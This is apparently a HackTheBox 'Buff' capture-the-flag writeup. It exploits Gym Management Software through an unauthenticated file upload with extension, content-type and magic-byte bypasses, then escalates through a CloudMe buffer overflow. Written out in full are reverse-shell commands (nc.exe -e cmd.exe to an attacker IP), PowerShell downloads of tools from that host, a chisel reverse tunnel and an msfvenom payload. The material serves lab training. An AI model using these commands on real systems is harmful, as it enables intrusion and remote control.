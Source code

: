 ```yaml
---
layout: post
title:  "HackTheBox - Buff Writeup"
date:   2020-11-21 06:00:00
categories: Security CTF"
author: Ryan
---
```


*Hack The Box is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![HTB - Buff](../images/HTB-Buff/Header.png)

Buff is an Easy level Windows machine. The box statistics show us that we will be focusing heavily on existing CVEs, while working on enumeration skills in a somewhat realistic setup.  
![Buff Statistics](../images/HTB-Buff/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the tartget IP with Nmap, we're able to find what ports are open, while fingerprinting the services running and their versions.  
`>> nmap -p7680,8080 -sC -sV -Pn  -oA Extracts/Buff 10.10.10.198`
![Nmap](../images/HTB-Buff/nmap.png)

### Mrb3n's Bro Hut
Navigating to [http://10.10.10.198:8080](http://10.10.10.198:8080) leads us to what appears to be a pretty basic gym website. We can see infomation around their offerings, pricing, and facilities. One piece of information that stands out can be seen on the [Contact](http://10.10.10.198:8080/contact.php) page.  
![Buff Statistics](../images/HTB-Buff/Information_Gathering_GymManagementSoftware.png)

## Foothold
By researching the Gym Management Software version 1.0, we can see there are a wide range of reported vulnerabilities. An [Unauthenticated RCE](https://www.exploit-db.com/exploits/48506) exploit can be found on Exploit-DB, and looks to be promising.

### Script Usage
After downloading the exploit to our machine, we can learn more about its usage with the following command:  
`>> python 48506.py`
![Shell Help](../images/HTB-Buff/Shell_Help.png)

### Running the Script
Passing in our target server, the exploit runs successfully, and we gain shell access.  
`>> python 48506.py http://10.10.10.198:8080/`
![Shell Run](../images/HTB-Buff/Shell_Run.png)

### How it works
Reading through the exploit, it appears that the Gym Management Software is missing user authentication on its file upload at `upload.php`. Combining this with a few tricks to bypass any file upload restrictions, and we're able to achieve a basic web shell.

File Restriction Bypasses:
* **Filename.php.png**: If the server is only checking the last file extension, we're able to successfully pass the check by appending ".png" to the file name.
* **image/png**: By setting the content-type to image/png, we're telling the server that the file is an image, nothing suspicious to see here.
* **Magic Bytes**: In case the server decides to check the content of the file, rather than just the filename and content-type, we're passing it a series of "magic bytes" which act as a file signature. The bytes sent in this case, `\x89\x50\x4e\x47\x0d\x0a\x1a`, represent a PNG file.  
![Shell Code 1](../images/HTB-Buff/Shell_Code_1.png)

## Enumeration
### User Flag
We appear to be running as the user `shaun`. Let's see if we can get the User Flag.  
`>> type C:\Users\shaun\Desktop\user.txt`
![User Flag](../images/HTB-Buff/User_Flag.png)

### Upgrade Shell
Before we get too far into the box, let's upgrade our shell using Netcat. The current shell is very basic and unable to do many of the tasks we may need when enumerating or trying to escalate privileges later.

Set up local server to get nc.exe onto the target box. Make sure that you've got a local copy of nc.exe in whatever directory you're hosting from.    
`>> python -m SimpleHTTPServer`

Downloading Netcat  
`>> powershell -c "Invoke-WebRequest -Uri '10.10.14.39:8000/nc64.exe' -OutFile 'nc.exe'"`

Setting up a listener on our local machine  
`>> nc -lvnp 3333`

Starting Netcat from taget box  
`>> .\nc.exe 10.10.14.39 3333 -e cmd.exe`

### Looking Around
Its possible that there are additional users to pivot to, lets check.  
`>> dir C:\Users`  
![User Enum](../images/HTB-Buff/Enum_Users.png)

With no additional users to work with, we can continue looking through shaun's directories  
`>> dir C:\Users\shaun\Downloads`  
![Downloads Enum](../images/HTB-Buff/Enum_Downloads.png)

CloudMe_1112.exe looks interesting. A little research shows it runs on port 8888 by default. Let's see if there's anything listening there.  
`>> netstat -a`  
![Network Enum](../images/HTB-Buff/Enum_Network.png)

By checking the list of processes running, we can see if CloudMe is already running and if it's process is owned by another user (perhaps Admin?).  
`>> tasklist /v`  
![Process Enum](../images/HTB-Buff/Enum_Process.png)

It looks like CloudMe is running as a user other than shaun. This is promising, since Administrator was the only other account we found.

## Privilege Escalation
If the name "Buff" wasn't enough of a hint of what's to come, you may be surprised to find that CloudMe 1.11.2 is vulnerable to a [Buffer Overflow](https://www.exploit-db.com/exploits/48389). It first requires us to get network access to the service running on port 8888. Let's get that set up with a small TCP/UDP Tunneling tool called [Chisel](https://github.com/jpillora/chisel).

### Tunnelling Port 8888
Start Listener on local machine over port 8800  
`>> sudo ./chisel server -p 8800 -reverse`

Download Chisel.exe to target box  
`>> powershell -c "Invoke-WebRequest -Uri '10.10.14.39:8000/chisel.exe' -OutFile 'chisel.exe'"`

Tunnel connection from target box to local machine  
`>> chisel.exe client 10.10.14.39:8800 R:8888:127.0.0.1:8888`

Result:  
![PrivEsc Tunnel](../images/HTB-Buff/PrivEsc_Tunnel.png)

### Generating Payload
The exploit we're using is currently set up to launch calc.exe. By using msfvenom, we can create a custom payload to do anything we want. Because the  
`>> msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.39 4444 -e cmd.exe' -b '\x00\x0A\x0D' -f python -v payload`  
![Payload Generation](../images/HTB-Buff/Payload_Generation.png)

### Execution
With our updated exploit, we'll be able to trigger the buffer overflow and 

Set up another listener on our local machine  
`>> nc -lvnp 4444`

Running completed exploit  
`>> python 48389.py`  
![Root Shell](../images/HTB-Buff/Shell_Root.png)

### Root Flag
With our administrative shell, we're able to retrieve the flag  
`>> type C:\Users\Administrator\Desktop\root.txt`  
![Root Flag](../images/HTB-Buff/Root_Flag.png)

